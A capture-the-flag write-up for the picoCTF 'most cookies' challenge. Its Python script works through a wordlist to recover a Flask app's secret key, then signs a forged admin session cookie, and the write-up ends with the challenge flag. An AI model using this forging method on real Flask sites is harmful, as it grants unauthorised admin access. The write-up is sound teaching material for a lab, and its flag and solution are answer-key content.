



# most cookies
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [link](http://mercury.picoctf.net:18835/)
> files given: server.py

## Approach
Came across the same website as I had during the Cookies challenge. Except this time it was about flask cookies. 

So I wrote a python script as follows: 
``` bash
import hashlib
from itsdangerous import URLSafeTimedSerializer
from itsdangerous.exc import BadTimeSignature
from flask.sessions import TaggedJSONSerializer
def flask_cookie(secret_key, cookie_str, operation):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    if operation == "decode":
        return s.loads(cookie_str)
    else:
        return s.dumps(cookie_str)

possible_keys = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

cookie_str = "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZzC_pw.HY7ZlLhs7tCvf4ZFhKSFChjuBwE"

for possible_secret_key in possible_keys:
    try:
        cookie_decoded = flask_cookie(possible_secret_key, cookie_str, "decode")
    except BadTimeSignature:
        continue
    secret_key = possible_secret_key
    break

print("Secret Key: %s" % secret_key)
admin_cookie = {"very_auth": "admin"}
admin_cookie_encoded = flask_cookie(secret_key, admin_cookie, "encode")

print("admin cookie: %s" % admin_cookie_encoded)
```

Input my server cookie and verified all the different cookie types. Then input the key as 'fortune' and changed the server cookie to the admin cookie as output.

Reloaded the page to get the flag.

### flag: picoCTF{pwn_4ll_th3_cook1E5_743c20eb}
